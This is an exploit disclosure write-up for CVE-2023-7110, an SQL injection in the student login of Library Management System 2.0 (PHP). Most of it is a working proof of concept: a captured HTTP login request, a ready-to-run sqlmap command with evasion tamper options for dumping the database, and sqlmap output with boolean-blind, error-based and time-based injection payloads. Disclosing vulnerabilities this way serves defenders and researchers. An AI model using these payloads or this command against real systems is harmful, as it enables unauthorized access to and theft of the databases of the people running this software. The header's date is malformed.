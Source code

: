 # CVE-2023-7110_Library-Management-System_SQL_Injection-2
+ **Exploit Title:** CVE-2023-7110_Library-Management-System_SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7110

## References: 
+ **CVE-2023-7110:** https://vuldb.com/?id.249005
+ https://www.cve.org/CVERecord?id=CVE-2023-7110

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'student' in "/libsystem/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the student login panel: "http://localhost/libsystem/login.php"
+ Fill the student id then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 302
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Referer: http://localhost/libsystem/
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

student=test&login=
```

+ Use sqlmap to exploit. In sqlmap, use 'student' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p student --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: student (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: student=test' OR NOT 8837=8837-- xdiM&login=

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: student=test' AND (SELECT 9935 FROM(SELECT COUNT(*),CONCAT(0x7162627671,(SELECT (ELT(9935=9935,1))),0x716a7a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- pYgV&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student=test' AND (SELECT 5778 FROM (SELECT(SLEEP(5)))XMIO)-- jzYc&login=
---
[12:29:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP, PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:29:49] [INFO] fetching current database
[12:29:49] [INFO] retrieved: 'libsystem'
current database: 'libsystem'
```

+ current database: `libsystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/f6d52d8d-69a3-4915-a235-3126417374ec)
